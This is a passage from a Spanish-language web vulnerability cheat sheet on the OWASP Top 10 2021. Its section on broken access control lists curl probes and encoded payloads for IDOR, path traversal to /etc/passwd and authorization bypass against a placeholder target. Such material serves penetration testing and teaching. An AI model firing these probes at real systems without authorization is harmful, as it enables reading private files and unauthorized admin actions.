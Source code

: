#  CHEATSHEET DE VULNERABILIDADES WEB

## ** OWASP TOP 10 2021**

### **1. Broken Access Control (A01:2021)**

#### **Descripción**
Control de acceso defectuoso que permite a usuarios actuar fuera de permisos.

#### **Tipos Comunes**
- **IDOR (Insecure Direct Object Reference)**
- **Path Traversal**
- **Privilege Escalation**
- **Missing Access Control**

#### **Detección Manual**
```bash
# Test IDOR básico
curl -H "Cookie: session=user_token" http://target/user/profile?id=1234
curl -H "Cookie: session=user_token" http://target/user/profile?id=1235

# Test Path Traversal
curl "http://target/download?file=../../../etc/passwd"
curl "http://target/download?file=....//....//etc/passwd"

# Test función admin sin autenticación
curl http://target/admin/users
curl http://target/admin/delete?id=123
```

#### **Payloads de Prueba**
```
# IDOR
/user/1 -> /user/2
/account/123 -> /account/124
/order/abc -> /order/xyz

# Path Traversal
../../../etc/passwd
....//....//etc/passwd
..%2f..%2f..%2fetc%2fpasswd
..%252f..%252f..%252fetc%252fpasswd

# Bypass de autorización
/admin/../user/panel
/admin%2f../user/panel
```

### **2. Cryptographic Failures (A02:2021)**
